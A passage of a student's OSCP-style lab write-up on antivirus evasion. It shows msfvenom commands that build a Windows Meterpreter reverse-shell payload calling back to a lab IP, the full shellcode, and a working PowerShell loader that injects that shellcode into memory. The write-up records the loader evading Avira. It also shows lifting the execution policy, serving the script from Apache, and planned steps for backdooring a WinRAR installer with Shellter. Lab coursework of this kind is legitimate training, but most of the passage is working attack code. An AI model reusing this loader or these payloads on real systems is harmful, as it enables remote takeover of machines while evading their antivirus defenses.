





Exercises

# 17.3.3.2

Let's test Antivira. Create a Meterpreter payload.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f exe > binary.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```

Ensure Avira has Real-Time Protection ON.


Transfer binary.exe to the Windows client and try to run it. We get a security alert.


## 17.3.3.2.1. Review the code from the PowerShell script and ensure that you have a basic understanding of how it works
```powershell
$code = '

# Import VirtualAlloc from kernel32.dll. This will allow us to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThread from kernel32.dll. This will allow us to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset from msvcrt.dll. This will help us write arbitrary data to memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

#
# NOTE: We are allocating the memory and executing a new thread in the current process (powershell.exe) rather than a rmeote one.
#

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;


[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

# Allocate a block of memory using VirtualAlloc
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

# Take each byte of the payload stored in the $sc byte array and write it to our newly allocated memory block using memset
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

# Our in-memory written payload is executed in a separate thread using CreateThread
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

## 17.3.3.2.2. Get a meterpreter shell back to your Kali Linux machine using PowerShell.

Create the same Meterpreter payload as earlier but do not save it as binary.exe.
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.119.214 lport=4444 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of powershell file: 1666 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5
```

The full powershell script with the meterpreter payload added:
```powershell
$code = '

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x6a,0xa,0x68,0xc0,0xa8,0x77,0xd6,0x68,0x2,0x0,0x11,0x5c,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xa,0xff,0x4e,0x8,0x75,0xec,0xe8,0x67,0x0,0x0,0x0,0x6a,0x0,0x6a,0x4,0x56,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x0,0x10,0x0,0x0,0x56,0x6a,0x0,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x0,0x56,0x53,0x57,0x68,0x2,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x0,0x7d,0x28,0x58,0x68,0x0,0x40,0x0,0x0,0x6a,0x0,0x50,0x68,0xb,0x2f,0xf,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0xc,0x24,0xf,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x1,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x0,0x53,0xff,0xd5;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Check it with Virus Total. 5/60 AV programs detected it.


I was unable to scan a single file. I moved the script to the Documents folder and did a quicker scan of that folder. Antivira result: No detection!


Run the script. We get an error
```plaintext
C:\Users\Administrator\Desktop>powershell ./memInject.ps1          
./memInject.ps1 : File C:\Users\Administrator\Desktop\memInject.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.                                                                          
At line:1 char:1                                                               
+ ./memInject.ps1
+ ~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess   
```

Change the policy for our current user to *Unrestricted*
```powershell
C:\Users\Administrator\Desktop>powershell                                       Windows PowerShell                                                              Copyright (C) Microsoft Corporation. All rights reserved.                                                                                                       PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser       Undefined                                                                       

PS C:\Users\Administrator\Desktop> Set-ExecutionPolicy -ExecutionPolicy
Unrestricted -Scope CurrentUser

PS C:\Users\Administrator\Desktop> Get-ExecutionPolicy -Scope CurrentUser   
Unrestricted                                                                    
```

Start a meterpreter handle on Kali


Run the powershellcode script
```powershell
PS C:\Users\Administrator\Desktop> .\memInject.ps1                                                                                                              IsPublic IsSerial Name                                     BaseType             -------- -------- ----                                     --------             True     True     Byte[]                                   System.Array         53542912
53542913                                                                        53542914                                                                        53542915 
...
```


Notice we receive a Meterpreter shell



## 17.3.3.2.3. Attempt to get a reverse shell using a PowerShell one-liner rather than a script.
Move the powershell script to the Apache web server and start Apache
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo cp memInject.ps1 /var/www/html
[sudo] password for kali: 
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$
kali@kali:~/gitWorkspace/pwk/oscpExercises/17_antivirusEvasion$ sudo systemctl start apache2
```


# 17.3.3.4
## 17.3.3.4.1. Inject a meterpreter reverse shell payload in the WinRAR executable. 


## 17.3.3.4.2. Transfer the binary to your Windows client and ensure that it is not being detected by the antivirus


## 17.3.3.4.3. Run the WinRAR installer and migrate your meterpreter shell to prevent a disconnect.
## 17.3.3.4.4. Attempt to find different executables and inject malicious code into them using Shellter. 